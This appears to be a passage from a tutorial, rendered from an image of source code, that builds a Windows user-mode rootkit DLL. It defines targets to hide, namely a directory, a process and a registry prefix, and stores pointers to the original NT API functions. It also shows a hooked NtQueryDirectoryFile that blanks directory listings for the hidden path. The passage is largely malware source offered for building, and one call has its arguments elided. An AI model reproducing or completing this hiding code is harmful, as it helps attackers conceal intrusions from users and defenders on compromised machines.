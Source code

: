 ### core components

the heart of the program is responsible for installing, managing, and removing hooks on various API functions. also required are custom functions that replace the original API functions, which they have the same signature as. the DLL lifecycle will also be handled by some functions (i.e. when the DLL is loaded, unloaded, or when a new thread is created or destroyed in the process).

to start with, we'll define some macros.

```cpp
#define HIDE_PATH L"c:\\path\\"
#define HIDE_PROCNAME L"calculator.exe"
#define HIDE_REG L"$$hide"
```

these are wide-string literals (`L"..."`) so they're compatible with Unicode APIs. respectively, the macros specify a directory, a process name, and a registry key prefix to hide from enumeration.

next, we'll set up the storage for the pointers to the original API functions. they'll be init'd to `NULL` for safety, to prevent accidental calls to uninitialized function pointers. the typedefs (like `NtQueryDirectoryFile_t`) are there to ensure type safety and the correct function signatures.

```cpp
NtQueryDirectoryFile_t		origNtQueryDirectoryFile = NULL;
NtQueryDirectoryFileEx_t	origNtQueryDirectoryFileEx = NULL;
NtQuerySystemInformation_t	origNtQuerySystemInformation = NULL;
NtEnumerateKey_t			origNtEnumerateKey = NULL;
NtEnumerateValueKey_t		origNtEnumerateValueKey = NULL;
```

### hook functions

#### hiding the file

to intercept calls to `NtQueryDirectoryFile`, we'll write a function called `HookedNtQueryDirectoryFile`. 

```cpp
NTSTATUS NTAPI HookedNtQueryDirectoryFile(
    HANDLE FileHandle, 
    HANDLE Event,
    PIO_APC_ROUTINE ApcRoutine,
    LPVOID ApcContext,
    PIO_STATUS_BLOCK IoStatusBlock,
    LPVOID FileInformation,
    ULONG Length,
    FILE_INFORMATION_CLASS FileInformationClass,
    BOOLEAN ReturnSingleEntry,
    PUNICODE_STRING FileName,
    BOOLEAN RestartScan
) {
    NTSTATUS status = STATUS_NO_MORE_FILES;
    WCHAR dirPath[MAX_PATH + 1] = { 0 };
    
    if (GetFinalPathNameByHandleW(FileHandle, dirPath, MAX_PATH, FILE_NAME_NORMALIZED)) {
        if (StrStrIW(dirPath, HIDE_PATH))
            ZeroMemory(FileInformation, Length);
        else
            status = origNtQueryDirectoryFile(/*params*/);
    }
    return status;
}
```

